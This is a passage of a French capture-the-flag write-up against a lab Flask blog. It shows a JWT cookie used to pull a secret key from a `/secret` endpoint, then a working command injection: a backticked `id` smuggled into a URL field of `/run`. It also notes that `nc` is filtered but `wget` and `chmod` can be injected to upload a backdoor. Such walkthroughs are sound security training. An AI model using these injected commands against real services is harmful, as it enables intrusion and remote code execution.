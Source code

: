 On pouvait alors questionner l'endpoint `/secret`. On disposait d'un indice dans l'un des posts du blog (l'appli Flask est grosso modo un blog) via une URL qui mentionnait différentes solutions d'authentification ([Configuration Options flask-jwt-extended 4.4.4 documentation](https://flask-jwt-extended.readthedocs.io/en/stable/options/#JWT_ACCESS_COOKIE_NAME)). Après quelques essais, c'était l'authentification par cookie qu'il fallait utiliser :

```console
$ curl http://192.168.56.123:8080/secret -H "Cookie: access_token_cookie=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJmcmVzaCI6ZmFsc2UsImlhdCI6MTY3ODcwNzMzOCwianRpIjoiMzk2NWMxMWYtOTljYy00OWUyLTgzNTYtOGZjNmM2MGZjMWZhIiwidHlwZSI6ImFjY2VzcyIsInN1YiI6ImRldmxvb3AiLCJuYmYiOjE2Nzg3MDczMzgsImV4cCI6MTY3ODcwODIzOH0.R1UKwM6-8Z-xIGmpTBeZy5y5TZmtvzj1IFqtnuSf1zw;"
{"ip-address": "", "secret_key": "commandexecutionissecret"}
```

Il fallait aussi que le token soit assez frais. J'ai dû re-procéder à une authentification.

## Injection de commande

On peut finalement questionner l'endpoint `/run` :

```console
$ curl -XPOST http://192.168.56.123:8080/run -H "Content-Type: application/json" -d '{"url": "192.168.56.1:9999", "secret_key": "commandexecutionissecret"}'
{"message":"  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current\n                                 Dload  Upload   Total   Spent    Left  Speed\n\r  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0\r100    20  100    20    0     0   6666      0 --:--:-- --:--:-- --:--:--  6666\n","success":false}
```

Cela génère une requête cURL dont on peut capturer la requête :

```http
GET / HTTP/1.1
Host: 192.168.56.1:9999
User-Agent: curl/7.64.0
Accept: */*
```

Après avoir testé l'hypothèse que le script download un fichier puis l'exécute ou l'interprète (langage bash, python, php), c'est finalement l'essai d'une injection de commande qui a fonctionné :

```console
$ curl -XPOST http://192.168.56.123:8080/run -H "Content-Type: application/json" -d '{"url": "192.168.56.1:9999`id`", "secret_key": "commandexecutionissecret"}'
{"message":"curl: (3) URL using bad/illegal format or missing URL\n --- snip --- Could not resolve host: groups=33(www-data),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),109(netdev),112(bluetooth),116(lpadmin),117(scanner)\n","success":false}
```

L'API semble avoir un filtre pour bloquer l'utilisation de `nc` mais les autres commandes telles que `wget`, `chmod` peuvent être injectées. C'est suffisant pour uploader une backdoor et récupérer un accès.

## Password reuse

L'appli tournait avec l'utilisateur `patrick` :
